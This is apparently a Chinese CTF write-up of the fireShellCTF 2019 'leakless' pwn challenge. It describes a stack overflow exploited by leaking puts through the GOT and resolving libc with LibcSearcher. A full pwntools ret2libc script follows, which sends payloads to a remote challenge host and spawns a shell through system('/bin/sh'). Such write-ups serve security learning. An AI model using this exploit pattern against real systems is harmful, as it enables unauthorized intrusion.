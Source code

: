 > 原文链接: https://www.anquanke.com//post/id/170473 


# fireShellCTF 2019 RE&amp;PWN


                                阅读量   
                                **191074**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">7</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p4.ssl.qhimg.com/t01aa9e9214544ee442.png)](https://p4.ssl.qhimg.com/t01aa9e9214544ee442.png)



## PWN

### <a class="reference-link" name="leakless"></a>leakless

这题就是一个简单的栈溢出，有`puts`，依次泄露libc版本，getshell即可

不过做题时有点问题，本地成功，远程没有回显，看到这题叫`leakless`，感觉事情不太对劲

然而换了题目给的备用服务器就成功了,这里利用了一个libcSearch的库但是读者可以利用libc-data进行一个搜索。题目比较简单就不多说了。

```
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = "debug"

p = remote("35.243.188.20" , 2002)
elf = ELF("./leakless")

payload = "a" * 0x48 + "b" * 4 + p32(elf.plt["puts"]) + p32(elf.sym["feedme"]) + p32(elf.got["puts"])
p.sendline(payload)
puts_addr = u32(p.recv(4))
libc = LibcSearcher("puts" , puts_addr)
libc_base = puts_addr - libc.dump("puts")
system = libc_base + libc.dump("system")
bin_sh = libc_base + libc.dump("str_bin_sh")

payload = "a" * 0x48 + "b" * 4 + p32(system) + p32(elf.sym["feedme"]) + p32(bin_sh)
p.sendline(payload)

p.interactive()
```
